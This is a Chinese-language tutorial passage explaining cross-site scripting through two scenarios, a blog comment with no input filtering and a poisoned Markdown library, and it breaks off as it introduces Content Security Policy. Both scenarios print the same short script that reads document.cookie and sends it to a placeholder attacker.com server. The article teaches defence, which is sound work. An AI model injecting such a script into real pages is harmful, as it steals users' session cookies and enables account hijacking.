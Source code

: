 # XSS攻击？内容安全策略会出手的

XSS（Cross-Site Scripting，跨站脚本攻击，简称XSS）攻击是一种利用网页应用程序的安全漏洞的攻击方式，攻击者通过在网页中注入恶意脚本代码，使其在用户的浏览器中执行。这些恶意脚本可以用来窃取用户的敏感信息、篡改网页内容或进行其他未经授权的操作。

::: tip XSS全称为Cross-Site Scripting，简称为什么是XSS而不是CSS

为什么XSS不简称为CSS，主要是因为CSS已经被广泛用于表示层叠样式表，用于定义网页的样式和布局。为了避免混淆，XSS选择了不同的简称，即"XSS"。

:::

**有小伙伴可能会疑惑："攻击者是怎么向网页注入恶意脚本的？"，我们看下面的例子：**

> 有一个博客网站提供了评论功能，用户评论可以实时渲染到DOM中，但由于该博客并未做用户输入以及渲染到DOM时的数据校验，因此攻击者就可以评论如下内容：
>
> ```js
> <script>
>   // 恶意代码，假设它会窃取用户的Cookie
>   var stolenData = document.cookie;
>   // 将数据发送到攻击者的服务器
>   var img = new Image();
>   img.src = "http://attacker.com/steal.php?data=" 
>                    + encodeURIComponent(stolenData);
> </script>
> ```
>
> 当其他用户浏览评论时，浏览器会执行评论中的JavaScript代码。这个恶意脚本会窃取用户的Cookie数据，并将它发送到攻击者的服务器，攻击者可以在服务器上分析这些Cookie数据，可能用于进一步的攻击，如身份盗窃或会话劫持。

是不是很恐怖，当然聪明的朋友可能会说："那我做好用户输入、客户端渲染的数据校验不就可以了吗？"。确实，**做好用户输入的验证和客户端渲染数据的校验是防止XSS攻击的关键步骤之一**，但不能完全依赖它来确保安全，因为XSS攻击可以非常隐蔽和复杂，比如下面这个例子：

> 有一个在线论坛网站用于用户发表和浏览帖子。它使用了一个开源的Markdown渲染库，该库用于将用户输入的Markdown文本转换为HTML以进行显示。该网站执行了严格的用户输入、数据渲染验证，以确保用户不能直接插入恶意脚本或HTML标签。但其依赖的Markdown渲染库被污染，在某个时刻被攻击者篡改，包含了以下代码：
>
> ```js
> <script>
>   // 恶意代码，假设它会窃取用户的Cookie
>   var stolenData = document.cookie;
>   // 将数据发送到攻击者的服务器
>   var img = new Image();
>   img.src = "http://attacker.com/steal.php?data=" 
>                    + encodeURIComponent(stolenData);
> </script>
> ```
>
> 当用户浏览Markdown时，浏览器会执行第三方库恶意代码。这个恶意脚本会窃取用户的Cookie数据，并将它发送到攻击者的服务器，攻击者可以在服务器上分析这些Cookie数据，可能用于进一步的攻击，如身份盗窃或会话劫持。

上述例子中该网站虽然对用户输入、数据渲染进行了严格的验证，但由于第三方库存在漏洞，导致恶意JavaScript代码被执行。当然，这可以通过**尽量选择受信任的源（如官方仓库或社区维护的库）的依赖，以及定期审查依赖的安全风险来降低XSS攻击的风险**。

从上述两个例子我们可以看到想要防止XSS攻击是极度复杂且困难的，为了提供一种有效的方式来降低XSS攻击风险，W3C推出了一项安全措施——内容安全策略(Content Security Policy ，简称CSP)
